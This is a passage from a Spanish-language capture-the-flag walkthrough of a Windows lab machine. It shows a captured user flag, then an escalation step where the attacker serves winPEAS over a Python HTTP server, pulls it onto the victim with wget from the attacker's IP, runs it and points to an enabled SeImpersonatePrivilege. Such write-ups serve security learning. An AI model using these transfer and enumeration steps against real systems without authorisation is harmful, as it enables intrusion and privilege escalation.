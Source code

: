```powershell
C:\Users\sql_svc\Desktop>type user.txt
type user.txt
3e7b102e78218e935bf3f4951fec21a3
```


## Escalada de privilegios

Para escalar privilegios utilizaremos una herramienta llamada [[winPEAS]], que automatizará gran parte del proceso de enumeración de procesos.

Primero debemos transferir el binario a la máquina víctima. Para ello montamos un servidor http con python por el puerto 80, y al igual que antes, utilizamos wget en la máquina víctima:

```shell
sudo python3 -m http.server 80
```
```powershell
wget http://<nuestra ip>/winPEASx64.exe -outfile winPEASx64.exe
```

Igual que antes, el servidor http debería recibir la petición:

```shell
10.129.238.95 - - [07/Feb/2023 23:16:44] "GET /winPEASx64.exe HTTP/1.1" 200 -
```

Una vez subido, lo ejecutamos:

```powershell
.\winPEASx64.exe
```

Debido a que la salida es bastante larga solo pondré algunas lineas importantes:

```
[...]

Current Token privileges
# Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#token-manipulation
    SeAssignPrimaryTokenPrivilege: DISABLED
    SeIncreaseQuotaPrivilege: DISABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeCreateGlobalPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: DISABLED
[...]

PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.17763.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 79B
[...]
```
